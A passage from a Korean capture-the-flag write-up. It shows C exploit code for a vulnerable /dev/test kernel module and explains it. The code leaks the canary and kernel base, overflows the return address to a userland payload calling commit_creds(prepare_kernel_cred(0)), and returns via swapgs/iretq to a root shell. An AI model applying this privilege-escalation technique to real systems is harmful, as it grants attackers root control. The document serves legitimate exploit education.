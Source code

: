 ```c
        "iretq;"
        : : "r" (&rv));
}

int main()
{
    int fd;
    uint64_t buf[0x100/8] = {0, };
    if ((fd = open("/dev/test", O_RDWR)) == -1)
    {
        printf("open error\n");
        return -1;
    }
    read(fd, buf, 0);
    
    uint64_t canary = buf[4];
    uint64_t kbase = buf[7] - 0x20daf8;
    prepare_kernel_cred = kbase + 0x943e0;
    commit_creds = kbase + 0x94140;

    backup_rv();
    memset(buf, 0x30, 0x100);
    buf[8]  = canary;
    buf[13] = &payload;
    write(fd, buf, sizeof(buf));
    
    close(fd);
    return 0;
}
```
익스플로잇의 흐름은 위에서 설명한 취약점들을 터뜨리면 된다.

read 함수에서는 0을 count로 넣어서, canary와 커널의 base 주소를 가져오고,

write 함수에서는 BOF를 통해, RET에 유저 공간에 있는 payload함수의 주소로 덮어서 권한 상승을 수행했다.

write 하기 전에 실행시키는 backup_rv 함수는 현재 유저 공간에 있는 context를 rv 구조체에 삽입한다. RET를 덮어서 payload 함수를 수행하는 것은, 커널 공간에서 유저 공간으로 회귀하는 과정이 조작된 것이기 때문에 수동으로 환경을 유저 공간으로 맞춰줘야 한다. 그때 사용하는 것이 바로 rv 구조체이고, backup_rv 함수는 그 구조체를 초기화한다.

payload 함수는 권한 상승을 수행하고, 이전에 초기화한 rv 구조체를 통해, 유저 공간으로 환경을 맞춰준다. prepare_kernel_cred(0)은 root의 cred 구조체의 주소를 반환하고, commit_creds 함수는 인자로 받은 cred 구조체로 현재 태스크의 cred를 바꾼다. 즉, commit_creds(prepare_kernel_cred(0))은 현재 태스크의 권한을 루트 권한으로 바꾸는 함수인 것이다.

이후에 있는 인라인 어셈블리는 swapgs, iretq, 그리고 rsp를 아까 backup_rv 함수에서 초기화한 rv 구조체의 주소로 맞춰주는 준다. 앞선 opcode 중 하나인 swapgs는 GS 레지스터를 복구하는 명령이고, iretq는 rsp를 기준으로 rip, cs, rflags, rsp, ss 레지스터를 복구하는 명령이다. 이 둘은 커널 패닉을 일으키지 않고, 커널 공간에서 유저 공간으로 돌아갈 때 필요한 명령들이라고 이해하고 있으면 되겠다. (사실, swapgs는 각 잡고 공부 좀 해야 제대로 알 수 있을 것 같다.)

인라인 어셈블리에서 쓰인 콜론(:)은 확장된 인라인 어셈블리에서 사용되는 것이다. 첫 번째 콜론 뒤는 출력, 두 번째 콜록 뒤는 입력, 마지막 콜론 뒤는 asm 명령 중에 변화되는 레지스터를 지칭한다. 즉, 해당 레지스터에 값을 저장하지 말라고 컴파일러에게 명시하는 것이다.

위에서는 두 번째 콜론 뒤, 즉, 입력으로 "r" (&rv)를 사용하였다. 여기서 "r"은 범용 레지스터(a, b, c, d, S, D) 중 아무거나 쓰라는 것을 의미하고, 해당 레지스터에 전역 구조체 변수 rv의 주소를 담으라는 뜻이다. 그리고, asm 중에 사용된 %0은 입/출력으로 들어온 인자의 인덱스를 의미하는 것으로 0부터 1씩 증가하게 된다. 정리하자면, 범용 레지스터 중 하나에 rv의 주소를 담아서, 해당 레지스터에 있는 값을 rsp에 복사하는 명령인 것이다.

그렇게 payload 함수가 커널에서 실행되면, 권한 상승을 수행한 뒤에, 커널 패닉 없이 유저 공간으로 돌아간 뒤에, 미리 rip에 넣어 둔 shell 함수를 실행함으로써, 루트 권한을 획득하게 된다!

![권한 상승 성공!](0220-SFCTF-simpleKpwn-writeup/02-shell.png)